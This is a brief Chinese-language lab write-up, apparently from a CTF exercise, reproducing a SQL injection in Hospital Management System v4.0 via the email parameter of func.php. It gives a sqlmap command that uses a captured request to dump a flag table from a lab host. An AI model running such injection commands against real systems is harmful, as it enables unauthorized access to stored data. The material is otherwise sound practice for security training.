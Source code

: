## 1. 漏洞介绍
Hospital Management System v4.0 was discovered to contain a SQL injection vulnerability in /Hospital-Management-System-master/func.php via the email parameter.

POC：[Bypass authentication with SQL Injection · Issue #17 · kishan0725/Hospital-Management-System · GitHub](https://github.com/kishan0725/Hospital-Management-System/issues/17)

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310102335050.png)
## 2. 漏洞复现
burp suite 抓包跑sqlmap 
`http://eci-2zefn1t8l4jcfk9h5q9u.cloudeci1.ichunqiu.com/index1.php` 

```shell
python sqlmap.py -r post.txt -p email --batch -D ctf -T flag --dump
```

![flag.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310102339845.png)
